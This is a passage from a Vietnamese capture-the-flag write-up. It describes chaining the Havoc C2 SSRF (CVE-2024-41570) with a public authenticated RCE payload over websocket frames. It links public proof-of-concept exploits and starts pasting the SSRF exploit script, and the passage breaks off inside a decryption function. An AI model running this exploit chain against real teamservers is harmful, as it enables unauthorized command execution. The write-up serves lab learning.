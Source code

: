 Đến đây rồi có vẻ như stuck, bởi vì đơn giản là Havoc được mở ở local và không hề expose cho chúng ta, nhưng mà trước đây mình đã từng đọc một bug SSRF của Havoc rồi nên ta có thể search thử exploit test xem sao. [PoC ở đây](https://github.com/chebuya/Havoc-C2-SSRF-poc/blob/main/exploit.py)

![image](https://github.com/user-attachments/assets/2126643d-734c-4fdb-8e98-2f46b95cc643)

Vậy là ta đã có thể verify được là Havoc version này, có dính CVE-2024-41570, mọi người nên đọc [phân tích của author](https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/), cũng là người tạo ra box này, anh này phân tích rất hay.
Nhưng mà có SSRF thì làm được gì, đơn giản là cũng chả có gì để đọc hay thậm chí là phải internal port scan ??? Mình nghĩ ngay đến việc là do đã có credentials của vài user bên trong Havoc profiles nên kết hợp với việc có SSRF, ta có thể kết nối vào port 40056 (tức là port default của Havoc server) trong local để có thực thi được command từ bên trong đó. Nghe có vẻ hợp lí, và thực sự đúng là thế, tuy nhiên thì việc triển khai lại cực kì khó và phức tạp do ta sẽ phải craft từng frame cho việc gửi request đến websocket server của Havoc.

Nói đơn thì sẽ là chain bug SSRF và [payload](https://github.com/IncludeSecurity/c2-vulnerabilities/blob/main/havoc_auth_rce/havoc_rce.py) này và làm cho nó hoạt động, ở đây ta sẽ cần nói qua chút về cấu trúc của một frame khi viết request websocket. Khi ta cần gửi payload đi dưới dạng websocket request, với trường hợp của mình bây giờ là mình sẽ cần gửi các payload dưới dạng các frame, và cấu trúc của một frame sẽ như sau:

![image](https://github.com/user-attachments/assets/ef8f85e5-2666-478c-b53c-b6f41f46c47a)

Mình hỏi ChatGPT kết hợp với google cho việc code đoạn này, và dưới đây sẽ là đoạn code mình dùng cho việc foothold:

```
# Exploit Title: Havoc C2 0.7 Unauthenticated SSRF
# Date: 2024-07-13
# Exploit Author: @_chebuya
# Software Link: https://github.com/HavocFramework/Havoc
# Version: v0.7
# Tested on: Ubuntu 20.04 LTS
# CVE: CVE-2024-41570
# Description: This exploit works by spoofing a demon agent registration and checkins to open a TCP socket on the teamserver and read/write data from it. This allows attackers to leak origin IPs of teamservers and much more.
# Github: https://github.com/chebuya/Havoc-C2-SSRF-poc
# Blog: https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/
import binascii
import hashlib
import json
import random
import struct
import requests
import argparse
import urllib3
import os
urllib3.disable_warnings()


from Crypto.Cipher import AES
from Crypto.Util import Counter

key_bytes = 32

def decrypt(key, iv, ciphertext):
    if len(key) <= key_bytes:
        for _ in range(len(key), key_bytes):
            key += b"0"

    assert len(key) == key_bytes

    iv_int = int(binascii.hexlify(iv), 16)
```